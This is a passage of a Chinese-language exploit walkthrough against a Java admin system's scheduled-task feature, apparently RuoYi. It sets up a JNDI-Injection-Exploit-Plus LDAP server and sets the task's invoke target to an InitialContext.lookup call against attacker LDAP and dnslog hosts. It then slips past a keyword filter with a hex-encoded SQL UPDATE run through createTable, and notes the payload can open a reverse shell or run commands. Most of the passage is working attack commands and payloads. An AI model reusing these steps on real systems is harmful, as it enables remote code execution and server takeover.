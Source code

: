 创建任务  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3Ndvoicp84VbdDFJCa4SsegUGvUvs09ZlBPyXofPxKsGeZhB28RsEzU3upORg/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
  
执行一次  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicvzpBlR9rHZJeBiaBjo7FTNHNTjr0PL13ia10yChNk7V0HM39MCEWiaNIg/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
  
执行被修改的任务之前需要开启JNDI  
需要下载cckuailong师傅的JNDI-Injection-Exploit-Plus项目(https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/releases/tag/2.3)。  
jdk版本要求1.8  
```
java -jar '.\JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar' -C calc -A 127.0.0.1
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3Ndvoicib94HORgaVAmJibTvrcwaiaplxqIkcLP4eTHRkaOqbVAmJSiaWvFEaxyicw/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
  
执行被修改的1任务  
JNDI  
```
javax.naming.InitialContext.lookup('ldap://127.0.0.1:1389/deserialJackson')
```  
  
payload中可以执行反弹shell、漏洞探测、命令执行功能  
DNSLOG  
```
javax.naming.InitialContext.lookup('ldap://dnslog')
```  
  
目标字符串不允许'ldap(s)'调用且不能存在括号，因此我们使用SQL注入加十六进制编码来进行绕过修改  
https://www.bejson.com/convert/ox2str/  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicODhm1nFWseX7RpeoKo30Yj6TNBib1mnEOh6tSkBiaDWa3x8ADJbnZ2SQ/640?wx_fmt=png&from=appmsg "")  
```
0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f7263793870732e646e736c6f672e636e2729
```  
```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f3132372e302e302e313a313338392f646573657269616c4a61636b736f6e2729 WHERE job_id = 1;')
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicXZGoOib4r8HTSbdTBqsVsFeURpKHk8NhQHtYrn3627dODeZrA3Bib4Sg/640?wx_fmt=png&from=appmsg "")  
  